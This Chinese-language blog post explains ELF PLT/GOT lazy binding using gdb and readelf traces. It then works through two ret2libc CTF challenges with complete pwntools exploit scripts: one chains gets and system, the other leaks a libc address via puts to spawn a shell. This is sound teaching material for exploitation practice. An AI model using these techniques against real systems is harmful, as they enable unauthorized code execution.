






PLT和GOT表
之前在调试的程序里经常会看到这样子的东西：
在调用对应的函数的时候并不是直接跳转到目标函数的地址，而是经过了一个.plt段。这个plt也就是procedure
linkage table 。这里就细说一下具体的东西。
我们写一个这样子的程序并编译：
1 2 3 4 5 6 7 #include <stdio.h> int main () printf ("Hello.\n" ); printf ("Goodbye\n" ); return 0 ; }
查看反编译之后的main函数：
1 2 3 4 5 6 7 8 8049193 : 8d 83 08 e0 ff ff lea eax ,[ebx -0x1ff8 ]8049199 : 50 push eax 804919a: e8 b1 fe ff ff call 8049050 <puts@plt> 804919f: 83 c4 10 add esp ,0x10 80491a2: 83 ec 0c sub esp ,0xc 80491a5: 8d 83 0f e0 ff ff lea eax ,[ebx -0x1ff1 ] 80491ab: 50 push eax 80491ac: e8 9f fe ff ff call 8049050 <puts@plt>
可以看到这里调用的是函数puts@plt而不是puts。我们继续反编译puts@plt，发现这是在.plt段里:
1 2 3 4 08049050 <puts@plt>: 8049050 : ff 25 10 c0 04 08 jmp DWORD PTR ds :0x804c010 8049056 : 68 08 00 00 00 push 0x8 804905b: e9 d0 ff ff ff jmp 8049030 <_init+0x30 >
这里程序首先跳转到了ds:0x804c010这个地方，这是哪里？
我们通过gdb跟进调试。

我们查看内存对应区块的内容：
1 2 pwndbg> x 0x804c010 0x804c010 <puts@got.plt>: 0x08049056
也就是说这条jmp DWORD PTR ds:0x804c010指令跳转到的地方实际上就是它的下一条语句。这里的GOT全程是Global
Offset Table 。我们接着往后看。
程序在push 8之后执行了jmp 0x8049030。在objdump中，跳转的目的地址是这样的：
1 2 3 4 08049030 <__libc_start_main@plt-0x10>: 8049030: ff 35 04 c0 04 08 push DWORD PTR ds:0x804c004 8049036: ff 25 08 c0 04 08 jmp DWORD PTR ds:0x804c008 804903c: 00 00 add BYTE PTR [eax],al
程序首先将DWORD PTR ds:0x804c004地址的数据压入栈中。
1 2 pwndbg> x 0x804c004 0x804c004: 0xf7ffda20
接下来，程序跳转进入_dl_runtime_resolve中。实际上，这个函数是动态重定位中的关键函数。这个函数的位置在glibc/sysdep/<machine type>/dl-trampoline.S中。删去一些代码以便理解。
1 2 3 4 5 6 7 8 9 10 11 12 _dl_runtime_resolve: pushl %eax # Preserve registers otherwise clobbered. pushl %ecx pushl %edx movl 16(%esp), %edx # Copy args pushed by PLT in register. Note movl 12(%esp), %eax # that fixup takes its parameters in regs. call _dl_fixup # Call resolver. popl %edx # Get register content back. movl (%esp), %ecx movl %eax, (%esp) # Store the function address. movl 4(%esp), %eax ret $12 # Jump to function address.
这个函数首先将寄存器压栈以保存寄存器的值。接下来，函数从栈上读取数据放入寄存器中。
执行到语句movl 16(%esp), %edx之前，栈中的状态是这样的：
1 2 3 4 5 00:0000│ esp 0xffffd528 —▸ 0xffffd590 —▸ 0xf7f6ee3c (_GLOBAL_OFFSET_TABLE_) ◂— 0x224d6c /* 'lM"' */ => EDX 01:0004│ 0xffffd52c —▸ 0xffffd570 ◂— 0x1 => ECX 02:0008│ 0xffffd530 —▸ 0x804a008 ◂— 'Hello.' => EAX 03:000c│ 0xffffd534 —▸ 0xf7ffda20 ◂— 0x0 => move into EAX 04:0010│ 0xffffd538 ◂— 0x8 => move into EDX
接下来程序进入了_dl_fixup函数。这个函数定义在glibc/elf/dl-runtime.c中。
/* This function is called through a special trampoline from the PLT
the first time each PLT entry is called. We must perform the relocation
specified in the PLT of the given shared object, and return the resolved
function address to the trampoline, which will restart the original call
to that address. Future calls will bounce directly from the PLT to the
function. */
函数的定义是这样的：
1 2 3 4 5 DL_FIXUP_VALUE_TYPE attribute_hidden __attribute ((noinline)) ARCH_FIXUP_ATTRIBUTE _dl_fixup ( struct link_map *l, ElfW(Word) reloc_arg );
这里需要加上一些 额外的信息 ，一个程序具体的动态链接细节是保存在了.dynamic节中。我们可以通过readelf读取文件中dynamic节的信息：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 $ readelf -d test Dynamic section at offset 0x2f0c contains 24 entries: 标记 类型 名称/值 0x00000001 (NEEDED) 共享库：[libc.so.6] 0x0000000c (INIT) 0x8049000 0x0000000d (FINI) 0x80491c4 0x00000019 (INIT_ARRAY) 0x804bf04 0x0000001b (INIT_ARRAYSZ) 4 (bytes) 0x0000001a (FINI_ARRAY) 0x804bf08 0x0000001c (FINI_ARRAYSZ) 4 (bytes) 0x6ffffef5 (GNU_HASH) 0x8048240 0x00000005 (STRTAB) 0x80482d0 0x00000006 (SYMTAB) 0x8048260 0x0000000a (STRSZ) 139 (bytes) 0x0000000b (SYMENT) 16 (bytes) 0x00000015 (DEBUG) 0x0 0x00000003 (PLTGOT) 0x804c000 0x00000002 (PLTRELSZ) 16 (bytes) 0x00000014 (PLTREL) REL 0x00000017 (JMPREL) 0x80483b4 0x00000011 (REL) 0x804839c 0x00000012 (RELSZ) 24 (bytes) 0x00000013 (RELENT) 8 (bytes) 0x6ffffffe (VERNEED) 0x804836c 0x6fffffff (VERNEEDNUM) 1 0x6ffffff0 (VERSYM) 0x804835c 0x00000000 (NULL) 0x0
在dynamic节中，存放的是这样的数据结构：
1 2 3 4 5 6 7 8 typedef struct { Elf32_Sword d_tag; union { Elf32_Word d_val; Elf32_Addr d_ptr; } d_un; } Elf32_Dyn; extern Elf32_Dyn _DYNAMIC[];
其中d_tags用来确定d_un的类型。它的具体取值可以在ELF对应的文档 里查看到。
有一些重要的取值：
DT_STRTAB：对应的d_un是Elf32_Addr类型，存放了字符串表。
DT_SYMTAB：对应的d_un是Elf32_Addr类型，存放了符号表。
DT_RELA和DT_REL：对应的d_un是Elf32_Addr类型，存放了重定位表。DT_RELASZ和DT_RELSZ对应的表项里是重定位表的总大小。DT_RELAENT和DT_RELENT对应的表项中则是重定位表单个项目的大小。（实际上上面DT_STRTAB和DT_SYMTAB对应的大小也是类似的命名方式）
DT_JMPREL：存放了需要重定位的函数信息（对应了.rel.plt节）。总大小和表项大小的命名和上面类似。
在重定位表中，存放了这样的数据结构：
1 2 3 4 5 6 7 8 9 typedef struct { Elf32_Addr r_offset; Elf32_Word r_info; } Elf32_Rel; typedef struct { Elf32_Addr r_offset; Elf32_Word r_info; Elf32_Sword r_addend; } Elf32_Rela;
其中Elf32_Rel对应了DT_REL，Elf32_Rela对应了DT_RELA。
我们可以使用readelf查看重定位信息：
1 2 3 4 5 6 7 8 9 10 11 12 $ readelf -r test 重定位节 '.rel.dyn' at offset 0x39c contains 3 entries: 偏移量 信息 类型 符号值 符号名称 0804bff4 00000206 R_386_GLOB_DAT 00000000 _ITM_deregisterTM[...] 0804bff8 00000406 R_386_GLOB_DAT 00000000 __gmon_start__ 0804bffc 00000506 R_386_GLOB_DAT 00000000 _ITM_registerTMCl[...] 重定位节 '.rel.plt' at offset 0x3b4 contains 2 entries: 偏移量 信息 类型 符号值 符号名称 0804c00c 00000107 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.34 0804c010 00000307 R_386_JUMP_SLOT 00000000 puts@GLIBC_2.0
可以看到在.rel.plt中puts函数的r_offset值为0804c010。这个值指到了哪里？回到前面程序，我们可以看到：
1 2 3 4 08049050 <puts@plt>: 8049050 : ff 25 10 c0 04 08 jmp DWORD PTR ds :0x804c010 8049056 : 68 08 00 00 00 push 0x8 804905b: e9 d0 ff ff ff jmp 8049030 <_init+0x30 >
这个地址就是puts@plt第一条指令跳转的目的地址，也就是在GOT表中puts对应的表项。那么，完成重定位之后，puts函数的地址就会被写入该偏移的地址。如果下次再需要调用这个函数，就可以直接调用这个地址进行跳转了，不需要再去执行各种解析操作。
这个Elf32_Rel表项在哪里？这个表项在.rel.plt这一节中，我们可以通过Elf32_Dyn表项去找到。
而puts函数的信息字段是00000307，这个值我们可以去和Elf32_Rel中r_info进行对照。
对于上面的ELF32_REL和ELF32_RELA，还有下面三个定义：
1 2 3 #define ELF32_R_SYM(i) ((i)>>8) #define ELF32_R_TYPE(i) ((unsigned char)(i)) #define ELF32_R_INFO(s,t) (((s)<<8)+(unsigned char)(t))
使用上面的ELF32_R_SYM宏计算ELF32_R_SYM(r_info)就可以得到对应符号在符号表中的偏移。ELF32_R_TYPE则可以计算出对应的类型。
对于前面的例子，puts函数的r_info为00000307，右移8位之后得到的值为3。我们再去读取符号表，可以看到偏移为3的地方就是puts函数的符号表。
1 2 3 4 5 6 7 8 9 10 11 $ readelf -s test Symbol table '.dynsym' contains 7 entries: Num: Value Size Type Bind Vis Ndx Name 0: 00000000 0 NOTYPE LOCAL DEFAULT UND 1: 00000000 0 FUNC GLOBAL DEFAULT UND _[...]@GLIBC_2.34 (2) 2: 00000000 0 NOTYPE WEAK DEFAULT UND _ITM_deregisterT[...] 3: 00000000 0 FUNC GLOBAL DEFAULT UND puts@GLIBC_2.0 (3) 4: 00000000 0 NOTYPE WEAK DEFAULT UND __gmon_start__ 5: 00000000 0 NOTYPE WEAK DEFAULT UND _ITM_registerTMC[...] 6: 0804a004 4 OBJECT GLOBAL DEFAULT 16 _IO_stdin_used
在符号表中，元素对应的类型是这样的：
1 2 3 4 5 6 7 8 typedef struct { Elf32_Word st_name; Elf32_Addr st_value; Elf32_Word st_size; unsigned char st_info; unsigned char st_other; Elf32_Half st_shndx; } Elf32_Sym;
其中st_size段是这样的：
1 2 3 #define ELF32_ST_BIND(i) ((i)>>4) #define ELF32_ST_TYPE(i) ((i)&0xf) #define ELF32_ST_INFO(b,t) (((b)<<4)+((t)&0xf))
对于导入符号，这个字段的值是0x12。
休息一会，放松一下。
好了，有了上面的基础，接下来继续看test程序。程序的运行进入了函数_dl_fixup中。
1 2 3 4 _dl_fixup ( struct link_map *l, ElfW(Word) reloc_arg );
和栈顶的元素对照一下：
1 2 00:0000│ esp 0xffffd528 —▸ 0xffffd590 —▸ 0xf7f6ee3c (_GLOBAL_OFFSET_TABLE_) ◂— 0x224d6c /* 'lM"' */ 01:0004│ 0xffffd52c —▸ 0xffffd570 ◂— 0x1
其中struct link_map *l对应的是栈顶的元素，ElfW(Word) reloc_arg对应的是栈顶的下一个元素也就是1。
接下来，程序执行
1 2 const ElfW (Sym) *const symtab const void *) D_PTR (l, l_info[DT_SYMTAB]);const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
前一条语句从l中获得了符号表的地址，第二条语句得到了字符串表的位置。
1 2 3 4 5 6 7 8 const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);const ElfW (Sym) *sym const ElfW (Sym) *refsym void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
接下来是一些定义和检查：
1 2 3 4 lookup_t result;DL_FIXUP_VALUE_TYPE value; assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
后面是符号表的查找过程：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 if (__builtin_expect(ELFW(ST_VISIBILITY)(sym->st_other), 0 ) == 0 ) { const struct r_found_version *version =NULL ; if (l->l_info[VERSYMIDX(DT_VERSYM)] != NULL ) { const ElfW (Half) *vernum (const void *)D_PTR(l, l_info[VERSYMIDX(DT_VERSYM)]); ElfW(Half) ndx = vernum[ELFW(R_SYM)(reloc->r_info)] & 0x7fff ; version = &l->l_versions[ndx]; if (version->hash == 0 ) version = NULL ; } int flags = DL_LOOKUP_ADD_DEPENDENCY; if (!RTLD_SINGLE_THREAD_P) { THREAD_GSCOPE_SET_FLAG(); flags |= DL_LOOKUP_GSCOPE_LOCK; } result = _dl_lookup_symbol_x(strtab + sym->st_name, l, &sym, l->l_scope, version, ELF_RTYPE_CLASS_PLT, flags, NULL ); if (!RTLD_SINGLE_THREAD_P) THREAD_GSCOPE_RESET_FLAG(); value = DL_FIXUP_MAKE_VALUE(result, SYMBOL_ADDRESS(result, sym, false )); } else { value = DL_FIXUP_MAKE_VALUE(l, SYMBOL_ADDRESS(l, sym, true )); result = l; }
经过上面的步骤，我们能够获得所需要的函数的偏移。
1 2 3 ...... return elf_machine_fixup_plt (l, result, refsym, sym, reloc, rel_addr, value);
完成这个步骤之后，解析过程完成。通过GDB调试可以看到，执行完函数_dl_fixup之后，EAX的值就是puts的实际地址：

接下来函数经过了栈的清理和一部分恢复操作，将EAX的值写入栈顶并执行ret，可以看到程序ret之后就会进入puts函数执行。

在执行完puts函数之后，程序回到main函数继续执行。
1 2 3 ► 0xf7dc0bfa <puts+266> ret <0x804919f; main+41> ↓ 0x804919f <main+41> add esp, 0x10
接下来程序运行到第二次调用puts函数时，我们使用gdb跟进：

可以看到程序会直接跳转进入了puts函数中执行，并不需要再进行一次_dl_runtime_resolve的操作。
实际上，如果程序在运行开始时就直接将动态链接库中的所有函数都进行这样的操作也是可以的，但是会带来巨大的性能损耗，所以会采用这样的折中的方式。在第一次调用函数的时候会进行一次GOT表的绑定，之后就不再需要了，这个操作被称为延迟绑定(Lazy
Binding) 。

ret2libc
以这道题 为例。
1 2 3 4 5 6 7 $ pwn checksec ret2libc2 [*] '/home/syml/Temp/ret2libc2' Arch: i386-32-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x8048000)
可以看到没有开启Canary和PIE，但是开启了NX。通过IDA检查发现程序里面没有/bin/sh这样的字符串。
使用readelf或者IDA都可以看到其中有system函数：
1 2 3 4 5 6 7 重定位节 '.rel.plt' at offset 0x3c4 contains 11 entries: 偏移量 信息 类型 符号值 符号名称 ...... 0804a010 00000207 R_386_JUMP_SLOT 00000000 gets@GLIBC_2.0 ...... 0804a01c 00000507 R_386_JUMP_SLOT 00000000 system@GLIBC_2.0 ......
我们使用IDA反编译可以看到main函数：
1 2 3 4 5 6 7 8 9 10 11 int __cdecl main (int argc, const char **argv, const char **envp) char s[100 ]; setvbuf(stdout , 0 , 2 , 0 ); setvbuf(_bss_start, 0 , 1 , 0 ); puts ("Something surprise here, but I don't think it will work." ); printf ("What do you think ?" ); gets(s); return 0 ; }
还是同样的栈溢出漏洞。采用和上次类似的方法可以看出返回地址相对的偏移为112。
同时，我们还发现在.bss段存在一个变量buf2：

接下来的问题是如何去构造payload。一个思路是，溢出main函数使得它返回到gets@plt，读取数据/bin/sh放入buf2，接下来返回到system@plt，将buf2的内容作为参数传入。
通过这个思路我们构造payload：
1 2 3 4 5 6 7 8 9 10 11 12 from pwn import *buf2_addr = 0x804a080 gets_addr = 0x8048460 system_addr = 0x8048490 sh = process('./ret2libc2' ) payload = b"A" * 112 + p32(gets_addr) + p32(system_addr) + p32(buf2_addr) + p32(buf2_addr) sh.sendline(payload) sh.sendline(b"/bin/sh" ) sh.interactive()
成功。
其实这个例子并没有具体的体现出来前面扯了一大段的GOT lazy
binding还有glibc的特点。这个例子 相对来说更难一些。
程序的保护措施和前一个一样：
1 2 3 4 5 6 7 $ pwn checksec ret2libc3 [*] '/home/syml/Temp/ret2libc3' Arch: i386-32-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x8048000)
但是查看这里的重定位表就会发现，没有system函数的重定位信息：
1 2 3 4 5 6 7 8 9 10 11 12 重定位节 '.rel.plt' at offset 0x3ac contains 10 entries: 偏移量 信息 类型 符号值 符号名称 0804a00c 00000107 R_386_JUMP_SLOT 00000000 printf@GLIBC_2.0 0804a010 00000207 R_386_JUMP_SLOT 00000000 gets@GLIBC_2.0 0804a014 00000307 R_386_JUMP_SLOT 00000000 time@GLIBC_2.0 0804a018 00000407 R_386_JUMP_SLOT 00000000 puts@GLIBC_2.0 0804a01c 00000507 R_386_JUMP_SLOT 00000000 __gmon_start__ 0804a020 00000607 R_386_JUMP_SLOT 00000000 srand@GLIBC_2.0 0804a024 00000707 R_386_JUMP_SLOT 00000000 __libc_start_main@GLIBC_2.0 0804a028 00000807 R_386_JUMP_SLOT 00000000 setvbuf@GLIBC_2.0 0804a02c 00000907 R_386_JUMP_SLOT 00000000 rand@GLIBC_2.0 0804a030 00000a07 R_386_JUMP_SLOT 00000000 __isoc99_scanf@GLIBC_2.7
接下来拖进IDA看一下：
1 2 3 4 5 6 7 8 9 10 11 int __cdecl main (int argc, const char **argv, const char **envp) char s[100 ]; setvbuf(stdout , 0 , 2 , 0 ); setvbuf(stdin , 0 , 1 , 0 ); puts ("No surprise anymore, system disappeard QQ." ); printf ("Can you find it !?" ); gets(s); return 0 ; }
这里有一个背景知识，glibc中各个函数之间相对偏移是固定的——我们知道了一个函数的偏移也就会知道其他所有函数的偏移。同时glibc中也有字符串/bin/sh，我们也可以去获得这个字符串的偏移。现有的工具包括了python模块 和在线网站 等。
那么问题就是怎么样去泄漏函数的偏移。另一个问题又在于，因为GOT的延迟绑定特点，我们需要读取一个已经执行过了一次的函数的偏移才行。
那么，我们选择读取__libc_start_main函数的GOT。payload构造如下（在本机上跑真的会碰到各种奇奇怪怪的问题）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 from pwn import *from LibcSearcher import LibcSearchersh = process('./ret2libc3' ) file = ELF('./ret2libc3' ) puts = file.plt['puts' ] libc_start_got = file.got['__libc_start_main' ] start = file.symbols['_start' ] sh.recvuntil(b"!?" ) payload = b'A' * 112 + p32(puts) + p32(start) + p32(libc_start_got) sh.sendline(payload) print ("Leak glibc got addr, return to start" )libc_start_addr = u32(sh.recv(4 )) print ("addr: {}" .format (hex (libc_start_addr)))libc = LibcSearcher('__libc_start_main' , libc_start_addr) base = libc_start_addr - libc.dump('__libc_start_main' ) sys_addr = base + libc.dump('system' ) bin_addr = base + libc.dump('str_bin_sh' ) payload = b"A" * 112 + p32(sys_addr) + b"aaaa" + p32(bin_addr) sh.sendline(payload) sh.interactive()
参考资料
[1] CTFWiki
栈溢出-基本ROP
[2] Executable and
Linkable Format(ELF) Specification